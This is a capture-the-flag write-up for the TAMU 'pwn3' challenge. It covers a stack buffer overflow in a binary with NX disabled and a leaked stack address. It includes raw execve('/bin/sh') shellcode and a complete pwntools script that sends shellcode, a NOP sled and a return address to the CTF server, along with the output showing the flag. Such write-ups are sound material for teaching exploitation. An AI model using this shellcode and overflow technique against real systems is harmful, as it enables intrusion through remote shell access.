

# pwn3 #


We downloaded the binary pwn3 ...

```
sha256sum pwn3
06be9c3f0e0dc60029ba2b9201844e6d2350053b1a2063f0dd29d95cff9f5533  pwn3
```

## Running the binary ##

```
./pwn3
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

Your random number 0xffe8552a!
Now what should I echo? foo
foo
```
That random number seems like a memory address leak of some sort ...

## Binary analysis ##
Reviewing the available functions in radare2 did not reveal any function related to print_flag
like the previous challenge (that is why is the "new Echo application 2.0" duh) ... One thing to
notice is that the value printed as a **random** number was the value of EBP-0xEE as highlighted
in the image below.


We fired gdb and set a breakpoint at address 0x0804850a (after the call to gets) to check were
is this address pointing to after our input, if we dump the address 0xffffd33a (address printed
during debugging) we can see that it points directly to our input buffer ...


Since this binary does not have the NX feature enabled, we can attempt to overwrite a ret address
in the stack and jump back to our buffer to gain control of the execution flow ...



To find the offset to the ret address we sent a buffer of 256 bytes and found that our ret address
had an offset of 244 bytes ...


```
>>> cyclic_find(0x616c6361)
242
```

We generated a shellcode to spawn a shell with pwntools ...
```
>>> with context.local():
...   context.arch = 'i386'
...   print enhex(asm(shellcraft.i386.linux.sh()))
...
6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80
```
We will inject our shellcode at the start to our buffer, add a few nops and at the end write our
return address captured during the print of the random number, our payload will look like this:

\[shellcode\]\[NOPS\]\[RET\]

## Getting the flag ##
We created a script to get our flag, after spawning a shell in the remote server we sent the
argument cat flag.txt to get the flag on the server.

```python
from pwn import *

p = remote ('pwn.ctf.tamu.edu', 4323)

print p.recvline()
print p.recvline()
print p.recvline()
print p.recvline()
print p.recvline()
mem_leak = p.recvline()
print mem_leak
add = int(mem_leak[19:29],16)
print p.recv()

shellcode = ''
shellcode += '\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01'
shellcode += '\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1'
shellcode += '\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80' + '\x90' * 194
shellcode += p32(add) + p32(add)

p.sendline(shellcode)
print p.recvline()
p.sendline('cat flag.txt')
print p.recvline()
p.close()
```
Running our script against the CTF server ...
```
python exp.py
[+] Opening connection to pwn.ctf.tamu.edu on port 4323: Done
Welcome to the New Echo application 2.0!

Changelog:

- Less deprecated flag printing functions!

- New Random Number Generator!


Your random number 0xff88802a!

Now what should I echo?
jhh///sh/bin\x89ãh\x814$ri1ÉQj\x04YáQá1Òj\x0bX̀\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90*\x80\x88\xff*\x80\x88\xff

gigem{n0w_w3_4r3_g377in6_s74r73d}

[*] Closed connection to pwn.ctf.tamu.edu port 4323
```
